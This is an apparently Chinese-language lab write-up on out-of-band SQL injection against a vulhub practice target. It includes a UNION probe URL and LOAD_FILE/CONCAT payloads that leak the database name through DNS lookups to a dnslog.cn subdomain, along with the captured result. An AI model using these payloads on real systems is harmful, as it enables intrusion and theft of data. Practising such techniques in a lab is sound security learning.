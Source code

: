 > 不太好总结

1. `concat()` 返回的已经是一个字符串了， 因此，不需要在外层再加一次 **单引号** 。
2. `load_file(str)` 可以不需要与 `select` 互用执行。
3. 使用 `select` 查询结果， 记得在外层加括号， 构建自查询 `(select ...)`
4. **括号** 太多， 注意闭合



## 0x01 探测注入点

探测是否存在 SQL 注入漏洞。 
虽然说肯定有， 但是还是多写一下 `UNION` 语句。

```bash
http://vulhub.example.com:8022/dns/?id=1%20and%201=2%20union%20select%201,2

## 位置为 2 
```


## 0x02 Web渗透， 从入门到放弃

+ 工具网站: http://dnslog.cn/
+ 工具插件: [chrome extension: hackbar](https://chrome.google.com/webstore/detail/hackbar/ginpbkfigcoaokgflihfhhmglmbchinc?utm_source=chrome-ntp-icon)


### 0x02.1 测试是否可以利用 dnslog 并获取当前库名

**首先来构建语句**

```sql
-- dbname
select database();

-- concat
select CONCAT('//', database(), '.719da4.dnslog.cn/1.txt') ;

-- load_file
SELECT LOAD_FILE(CONCAT('//', database(), '.719da4.dnslog.cn/1.txt')) ;
```

**执行漏洞利用**

```bash
http://vulhub.example.com:8022/dns/?id=1 AND LOAD_FILE(CONCAT('//', database(), '.pewhvo.dnslog.cn/1.txt'))

# maoshe.pewhvo.dnslog.cn
```

### 0x02.2 误入歧途

为什么这么说呢，因为之前在 *封神台* 上做了几个 **错误注入** 和 **盲注** 的靶场。
重点来了: **错误注入 和 盲注** 的靶场 FLAG 都是单独放了一张表的，都叫 **xx`flag`**。
那还不手到擒来， 于是在悲剧开始了 ... 
